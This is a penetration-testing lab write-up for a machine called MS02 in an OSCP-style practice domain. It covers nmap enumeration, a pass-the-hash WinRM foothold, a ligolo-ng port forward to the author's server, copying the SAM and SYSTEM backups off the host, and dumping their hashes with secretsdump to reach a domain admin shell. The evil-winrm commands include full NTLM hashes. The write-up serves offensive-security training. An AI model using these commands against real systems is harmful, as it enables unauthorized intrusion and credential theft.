







---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# MS02

## Enumeration

```
Nmap scan report for 10.10.112.142
Host is up (0.039s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2024-08-02T03:12:40+00:00; 0s from scanner time.
| ms-sql-info: 
|   10.10.112.142:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.10.112.142:1433: 
|     Target_Name: OSCP
|     NetBIOS_Domain_Name: OSCP
|     NetBIOS_Computer_Name: MS02
|     DNS_Domain_Name: oscp.exam
|     DNS_Computer_Name: MS02.oscp.exam
|     DNS_Tree_Name: oscp.exam
|_    Product_Version: 10.0.19041
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-04-09T09:38:38
|_Not valid after:  2054-04-09T09:38:38
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 1.11.X|2.1.X (85%)
OS CPE: cpe:/o:ibm:zos:1.11 cpe:/o:ibm:zos:2.1
Aggressive OS guesses: IBM z/OS 1.11 (85%), IBM z/OS 2.1 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-08-02T03:12:00
|_  start_date: N/A
|_nbstat: NetBIOS name: MS02, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:bf:fe:28 (VMware)

TRACEROUTE
HOP RTT      ADDRESS
1   39.07 ms 10.10.112.142
```

## Foothold

Initial access is provided via WinRM as `OSCP\celia.almeda` using the hash [extracted from `MS01`](../external-machines/ms01.md#mimikatz):

```bash
evil-winrm -i 10.10.112.142 -u 'celia.almeda' -H e728ecbadfb02f51ce8eed753f3ff3fd
```

<figure><figcaption><p>User access</p></figcaption></figure>

## Privilege Escalation

This is where I realize the machine cannot route traffic to networks outside its subnet such as where my machine and HTTP server are at `192.168.45.154`. This is a problem because I cannot download tools or exfiltrate anything. This is where I learned about `ligolo_ng`'s add\_listener functionality to create port forwards.

I [fully demonstrate its setup](../../../attack-vectors/port-forwarding-and-tunneling/ligolo-ng.md#example) on the `ligolo_ng` page. The command used from my `ligolo_ng` `proxy` shell session was:

```
listener_add --addr 0.0.0.0:8000 --to 192.168.45.154:80
```

This caused a listener to open on `MS01` at port 8000 on all interfaces. This was accessible to my `evil-winrm` session on `MS02`. I just had to alter all of my URLs to start `http://10.10.XXX.141:8000/...` instead of `http://192.168.45.154/...`. So now I can start my enumeration by running PEAS.

It does not turn up anything super interesting unfortunately.

### Manual Enumeration

I head down to the C:\ drive and start looking around manually. The `C:\windows.old` directory stands out. When I examine its contents it looks like a copy of the `C:\` drive (perhaps a forgotten backup or something):

<figure><figcaption><p>Contents look like backup</p></figcaption></figure>

### SAM Credential Dump

In this scenario I should immediately be thinking about the [SAM database](https://www.techtarget.com/searchenterprisedesktop/definition/Security-Accounts-Manager) which is in a file `C:\Windows\System32\config\SAM`.

If this file can be accessed it can be used to [dump credentials](https://www.hackingarticles.in/credential-dumping-sam/) in combination with a copy of the `SYSTEM` file which is stored in the same folder at `C:\Windows\System32\config\SYSTEM`.&#x20;

In addition to being stored in these files the `SAM` and `SYSTEM` files' contents also exist in the registry at `HKEY_LOCAL_MACHINE\SAM` and `HKEY_LOCAL_MACHINE\SYSTEM`.

#### Extracting the Files

I download my Upload-File.ps1 utility script in preparation and then  attempt to head to the `Windows\System32\config\` folder (inside the `C:\windows.old` backup) but weirdly it seems not to exist. I attempt to head up one level to look around `System32` when I find the files at that level:

<figure><figcaption></figcaption></figure>

I extracted the `SAM` file with no issues but had a problem with `SYSTEM`. I have seen this before with large files where they come up with the "no file uploaded" error in PHP. I have not had time to examine why. Anyway I decide to try compressing it. I use this technique to add a single file to a zip and upload that:

```powershell
$Files = New-Object -TypeName 'System.Collections.ArrayList'

# Use as many $Files.Add() statements as needed
$Files.Add('C:\windows.old\Windows\System32\SYSTEM')

Compress-Archive -Path $Files -DestinationPath '.\sys.zip'
```

<figure><figcaption><p>Uploading the files</p></figcaption></figure>

#### Extracting Hashes

Once the files have been moved to my machine I can use Impacket's SecretsDump to extract the hashes. I move the files to my working directory and give them their original SAM and SYSTEM names. I then use the command below to extract hashes


```
impacket-secretsdump -sam ./SAM -system ./SYSTEM LOCAL
```


* `LOCAL` tells `secretsdump` to parse local files
* `-sam` and `-system` flags are used to pass file paths to the local files

<figure><figcaption><p>Extracted hashes</p></figcaption></figure>

I recognize `tom_admin` as a valuable account from BloodHound so I check that one out first:

<figure><figcaption><p>CME of tom_admin</p></figcaption></figure>

I have read/write on `ADMIN$` shares for both machines as well as WinRM access. Turns out this was a good choice as the Administrator hash was not valid (password has probably changed since the backup was made) and that would have been discouraging to start with.

Since `tom_admin` is a member of `Domain` and `Enterprise Admins` with WinRM access to [`DC01`](dc01.md), this is probably a full domain compromise.

He has elevated access on the `MS02` machine as well:

```bash
evil-winrm -i ms02.oscp.exam -u 'tom_admin' -H 4979d69d4ca66955c075c41cf45f24dc
```

<figure><figcaption><p>Administrator shell via tom_admin</p></figcaption></figure>
